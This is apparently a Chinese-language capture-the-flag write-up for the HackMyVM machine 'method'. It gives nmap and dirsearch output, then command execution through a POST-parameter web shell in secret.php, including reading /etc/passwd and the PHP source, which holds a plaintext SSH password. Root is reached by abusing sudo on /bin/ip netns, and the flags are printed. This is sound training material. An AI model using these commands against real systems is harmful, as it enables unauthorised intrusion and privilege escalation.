

# 信息搜集

主机发现

```markup
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 01:41 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0015s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.00014s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.091s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.16 (192.168.21.16)
Host is up (0.00031s latency).
MAC Address: 08:00:27:1C:87:9C (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.11 (192.168.21.11)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 6.49 seconds
```

端口扫描

```markup
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.16
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 01:42 EDT
Nmap scan report for 192.168.21.16 (192.168.21.16)
Host is up (0.0016s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:1C:87:9C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.10 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.16  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-02 01:42 EDT
Nmap scan report for 192.168.21.16 (192.168.21.16)
Host is up (0.00029s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
MAC Address: 08:00:27:1C:87:9C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.72 seconds
```

# 漏洞利用

看一下80端口



目录扫描

```markup
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://192.168.21.16
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3                                
 (_||| _) (/_(_|| (_| )                                         
                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET
Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_192.168.21.16/_25-04-02_01-46-40.txt

Target: http://192.168.21.16/

[01:46:40] Starting:                                            
[01:46:53] 200 -  344B  - /index.htm
[01:47:01] 200 -  285B  - /sitemap.xml

Task Completed
```

/index.htm


/sitemap.xml


尝试访问/secret.php

```markup
┌──(kali㉿kali)-[~]
└─$ curl http://192.168.21.16/secret.php?HackMyVM=id
Now the main part what it is loooooool<br>Try other method
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.21.16/secret.php?HackMyVM=id
Now the main part what it is loooooool<br>Try other method
┌──(kali㉿kali)-[~]
└─$ curl -X POST http://192.168.21.16/secret.php -d HackMyVM=id
You Found ME : - (<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

尝试一下命令执行

```markup
┌──(kali㉿kali)-[~]
└─$ curl -X POST "http://192.168.21.16/secret.php" -d "HackMyVM=cat /etc/passwd | grep /bin/bash"
You Found ME : - (<pre>root:x:0:0:root:/root:/bin/bash
prakasaka:x:1000:1000:prakasaka,,,:/home/prakasaka:/bin/bash
</pre>
┌──(kali㉿kali)-[~]
└─$ curl -X POST "http://192.168.21.16/secret.php" -d "HackMyVM=cat secret.php"                  
You Found ME : - (<pre><?php
if(isset($_GET['HackMyVM'])){
        echo "Now the main part what it is loooooool";
        echo "<br>";
echo "Try other method";
        die;
}
if(isset($_POST['HackMyVM'])){
        echo "You Found ME : - (";
        echo "<pre>";
        $cmd = ($_POST['HackMyVM']);
        system($cmd);
        echo "</pre>";
        die;
}
else {
header("Location: https://images-na.ssl-images-amazon.com/images/I/31YDo0l4ZrL._SX331_BO1,204,203,200_.jpg");
}
$ok="prakasaka:th3-!llum!n@t0r";
?>
</pre>
```

用prakasaka进行ssh登录

```markup
┌──(kali㉿kali)-[~]
└─$ ssh prakasaka@192.168.21.16 
The authenticity of host '192.168.21.16 (192.168.21.16)' can't be established.
ED25519 key fingerprint is SHA256:D53VHP4fq2RTpU4+raTrdLYqT8iRcYHlLV+W3TQMFh0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.16' (ED25519) to the list of known hosts.
prakasaka@192.168.21.16's password: 
Linux method 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Oct 23 15:52:32 2021 from 192.168.1.5
prakasaka@method:~$ id
uid=1000(prakasaka) gid=1000(prakasaka) groups=1000(prakasaka),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),112(bluetooth)
```

# 提权

user.txt

```markup
prakasaka@method:~$ cat uSeR.txt
e4408105ca9c2a5c2714a818c475d06F
```

查看一下有没有可以利用的

```markup
prakasaka@method:~$ sudo -l
Matching Defaults entries for prakasaka on method:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User prakasaka may run the following commands on method:
    (!root) NOPASSWD: /bin/bash
    (root) /bin/ip
prakasaka@method:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
prakasaka@method:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
prakasaka@method:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
prakasaka:x:1000:1000:prakasaka,,,:/home/prakasaka:/bin/bash
```


提权

```markup
prakasaka@method:~$ sudo /bin/ip netns add foo
[sudo] password for prakasaka: 
prakasaka@method:~$ sudo /bin/ip netns exec foo /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

root.txt

```markup
# cat rOot.txt
fc9c6eb6265921315e7c70aebd22af7F
```
